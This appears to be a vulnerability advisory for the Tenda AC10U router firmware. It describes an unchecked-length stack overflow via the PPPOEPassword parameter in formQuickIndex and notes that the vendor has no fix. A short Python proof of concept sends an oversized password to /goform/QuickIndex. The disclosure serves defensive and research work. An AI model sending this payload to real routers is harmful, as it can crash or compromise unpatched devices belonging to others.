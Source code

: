 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the PPPOEPassword parameter in the formQuickIndex function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formQuickIndex" retrieves the parameter "PPPOEPassword" using "websGetVar" and passes it to the function "decodePwd" without undergoing any length checks.

![1705401313517](image/formQuickIndex/1705401313517.png)

The purpose of the "decodePwd" function is to copy data from a source while filtering out "/" symbols. If the entered value of "PPPOEPassword" (referred to as "ppppwd") exceeds the size of the "decode_pwd" array, it will result in a stack overflow.

![1705401384930](image/formQuickIndex/1705401384930.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/QuickIndex'
payload = {
    "PPPOEPassword": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
